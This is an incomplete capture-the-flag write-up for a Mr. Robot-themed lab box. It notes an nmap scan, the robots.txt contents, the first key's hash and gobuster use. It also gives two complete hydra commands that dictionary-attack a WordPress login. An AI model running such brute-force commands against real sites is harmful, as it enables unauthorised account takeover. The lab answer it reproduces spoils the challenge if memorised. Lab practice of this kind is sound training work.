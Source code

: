 # MrRobot
> Based on the Mr. Robot show, can you root this box?

## Key 1
* Ran nmap scan -- ports 80 and 443 are open
* Navigated to webpage
* Navigated to robots.txt:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

fsocity.dic is a file containing credentials.

key-1-of-3.txt:
```
073403c8a58a1f80d943455fb30724b9
```

## Key 2


## Key 3

## Notes and Rabbitholes

Used gobuster to find hidden URIs

Used hydra to attempt to brute force Wordpress login page. Got syntax help from [this blog](http://insidetrust.blogspot.com/2011/08/using-hydra-to-dictionary-attack-web.html).

```
$ hydra -L fsocity.dic -P fsocity.dic 10.10.31.57 -s 80 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR" -o hydra-http-post-form-attack.txt
```

Tried hydra again with "root" as the username since it's on the website home page:
```
$ hydra -l root -P fsocity.dic 10.10.31.57 -s 80 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR" -o hydra-http-post-form-attack.txt
```

I ran a nmap scan on all ports to see if I was missing anything, but no new ports were found.

